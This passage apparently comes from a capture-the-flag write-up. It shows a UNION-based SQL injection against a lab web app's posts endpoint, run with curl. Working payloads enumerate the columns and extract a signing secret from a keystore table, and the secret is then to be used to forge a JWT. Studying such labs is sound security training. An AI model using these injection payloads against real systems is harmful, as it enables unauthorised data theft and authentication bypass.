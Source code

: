 - i next try to union select 1 column:

```
$ curl http://161.35.173.232:31576/posts/\'union%20select%201--%20- -s | grep card 
              <div class="card ancient-card card-grid" style="max-width: 30rem; min-width: 20rem">
                <div class="card-body pt-0">
                  <h4 class="card-title">ERROR</h4>
                  <p class="card-text">Opps! Something went wrong!</p>
```

- that results in an error, so i'll start adding #'s until i get different feedback

```
$ curl http://161.35.173.232:31576/posts/\'union%20select%201,2,3,4--%20- -s | grep card  
              <div class="card ancient-card card-grid" style="max-width: 30rem; min-width: 20rem">
                <div class="card-body pt-0">
                  <img class="card-img-top" src="/static/images/3" alt="Post unavailable!">
                  <h4 class="card-title mb-1">2</h4>
                  <p class="card-text">4</p>
```

- this returns the values 2 and 4 as seen in the h4 and p tags
- i can now try to read a secret from the keystore values

```
$ curl http://161.35.173.232:31576/posts/\'union%20select%201,secret,3,4%20from%20keystore--%20- -s | grep card 
              <div class="card ancient-card card-grid" style="max-width: 30rem; min-width: 20rem">
                <div class="card-body pt-0">
                  <img class="card-img-top" src="/static/images/3" alt="Post unavailable!">
                  <h4 class="card-title mb-1">yEgEoSOKXmT50LM</h4>
                  <p class="card-text">4</p>
```

- bingo! i got a secret, this must be the dev secret aka kid 1 since that is the secret that i read. i can try and see if that works by editing it in jwt.io
